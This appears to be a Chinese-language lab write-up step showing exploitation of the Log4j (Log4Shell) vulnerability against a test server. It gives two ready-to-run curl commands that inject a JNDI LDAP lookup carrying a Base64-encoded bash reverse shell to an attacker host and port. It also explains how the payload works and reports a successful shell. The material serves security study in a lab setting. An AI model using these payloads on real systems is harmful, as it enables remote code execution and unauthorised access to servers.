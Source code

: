 #### [4] 构造攻击请求

1. **原始 PPT 中的命令：**
```bash
curl http://192.168.20.6:35536/hello -d 'payload=${jndi:ldap://192.168.168.3:1389/TomcatBypass/Command/Base64/'$(echo -n 'bash -i >& /dev/tcp/192.168.168.3/7777 0>&1' | base64 -w 0 | sed 's/+/%252B/g' | sed 's/=/%253d/g')'}'
```

2. **修改后的命令（用于避免 Shell 解析问题）：**
```bash
curl -G --data-urlencode "payload=\${jndi:ldap://192.168.168.3:1389/TomcatBypass/Command/Base64/$(echo -n 'bash -i >& /dev/tcp/192.168.168.3/7777 0>&1' | base64 | tr -d '\n' | sed 's/+/%2B/g' | sed 's/=/%3D/g')}" http://192.168.20.6:35536/hello
```
![1741599405269](image/record/1741599405269.png)

3. **Payload 说明：**
- 使用 `${jndi:ldap://...}` 构造恶意 JNDI 字符串。
- 将反向 shell 命令 `bash -i >& /dev/tcp/192.168.168.3/7777 0>&1` 转换为 Base64 编码，以适配 URL 参数格式。
- 目标服务器执行该 payload 后，会尝试连接攻击者的 IP 地址 `192.168.168.3` 和端口 `7777`。

4. **实验结果：**
![1741599479868](image/record/1741599479868.png)
![1741599539331](image/record/1741599539331.png)
![1741599577815](image/record/1741599577815.png)
- 请求返回 “ok”，表示服务端已接收 payload。
- 成功建立反向 shell 连接，验证了 Log4j 漏洞可被成功利用。
